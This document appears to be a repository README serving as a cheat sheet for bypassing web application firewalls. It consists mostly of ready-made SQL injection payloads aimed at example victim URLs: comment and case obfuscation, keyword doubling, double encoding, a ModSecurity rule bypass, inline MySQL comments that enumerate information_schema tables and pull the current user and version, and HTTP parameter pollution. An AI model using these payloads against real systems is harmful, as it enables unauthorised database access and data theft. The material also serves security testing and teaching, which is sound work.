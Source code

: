 <h1 align="center">WAF bypass Technique</h1>	

# Bypassing Methods and Techinques

#### 1. Pre-porcessor exploitation
- Make WAF skip input validation
#### 2. Impedance Mismatch
- WAF interpret input differently 
#### 3. Rule set Bypassing
- Use Payload that are not detected by WAF



# General step in WAF bypass

1. Fingerprint WAF and examine the filter rules
2. Encrypt the payload 
3. Test payload and examine the response 
4. If the payload cannot bypass WAF, use another payload and repeat from step 2






<h1 align="center">SQL injection WAF bypass</h1>


# Normal Bypassing Technique

## Bypass with Comment

- SQL comments allow to bypass a lot of filtering and WAF

`http://victim.com/news.php?id=1+un/**/ion+se/**/lect+1,2,3--`

## Case Changing

Some WAF filter only lowercase SQL keyword

Regex Fileter ==> ` /union\sselect/g`

`http://victim.com/news.php?id=1+UnIoN/**/SeLecT/**/1,2,3--`

## Replaced Keyword

- Some application and WAFs use preg_replace to remove all SQL keyword. So we can bypass 

`http://victim.com/news.php?id=1+UNunionION+SEselectLECT+1,2,3--`

- Some case SQL keyword was filtered out and replaced with whitespace. So we can use `%0b` to
bypass.

`http://victim.com/news.php?id=1+uni%0bon+se%0blect+1,2,3--`

## Character Encoding


- Most CMSs and WAFs will decode and filter/bypass an application input, but some WAFs only `decode the input once` so `double encoding` can bypass certain filters as the WAF will decode the input once then filter while application keep decoding the SQL statement executing

#### Normal payload (blocked)

` http://victim.com/php-nuke/?/**/union/**/select`

#### Bypass Payload (`%2a = *`, `%2f = /`)

`http://victim.com/php-nuke/?/%2A%2A/union/%2A%2A/select`

#### Bypass Payload

`http://victim.com/php-nuke/?%2f**%2funion%2f**%2fselect`

####  Mod Security CRS (Credit: Johannes Dahse)

`http://victim.com/news.php?id=0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D
%0A1%2C2%2Ccurrent_user`

```
%OD%0A = New line
```

#### Decode payload 

```
0 div 1 union#foo*/*/bar
select#foo 1,2,current_user
```
- In MySQL DB palyload is executed like 

`0 div 1 union select 1,2,current_user`


## Buffer Overflow

-WAFs that written in the C language prone to overflow or act differently when loaded with a bunch of
data. Give a large amount of data allows our code executing

```
http://victim.com/news.php?id=1+and+(select 1)=(select
0x414141414141441414141414114141414141414141414141414141414141414141+union+select+1,2,version(),database(),user(),6,7,8,9,10--

```

## Inline Comments (MySQL Only)


-  MySQL Server supports some variants of C-style comments.
These enable you to write code that includes MySQL extensions, but is still portable, by using
comments of the following form: 

`/*! MySQL-specific code */`

- A lot of WAFs filter SQL keywords like /union\sselect\ig We can bypass this filter by using inline
comments.

`http://victim.com/news.php?id=1/*!UnIoN*/SeLecT+1,2,3--`

- Inline comments can be used throughout the SQL statement so if table_name or information_schema
are filtered we can add more inline comments

`http://victim.com/news.php?id=/*!UnIoN*/+/*!SeLecT*/+1,2,concat(/*!table_name*/)
+FrOm/*!information_schema*/.tables/*!WhErE*/+/*!TaBlE_sChEMa*/+like+database()--`




# Advanced WAF Bypass

## 1. HTTP parameter Pollution & Encoding Technique

- sending a number of parameter with th same name

- Technology interpret this request differently 



#### Normal Payload

`http://www.website.com/products/?productid=1`

#### Bypass Payload


`http://www.website.com/products/?productid=1&productid=2`

<table>	
	<tr>
		<th>Backend </th>
		<th>Behaviour </th>
		<th>Process </th>
	</tr>
	<tr>
		<td>ASP.NET </td>
		<td>Concat with comma </td>
		<td>productid=1,2 </td>
	</tr>
	<tr>
		<td>JSP </td>
		<td>First Para </td>
		<td>productid=1 </td>
	</tr>
	<tr>
		<td>PHP </td>
		<td>Last Para </td>
		<td>productid=2 </td>
	</tr>
	

</table>






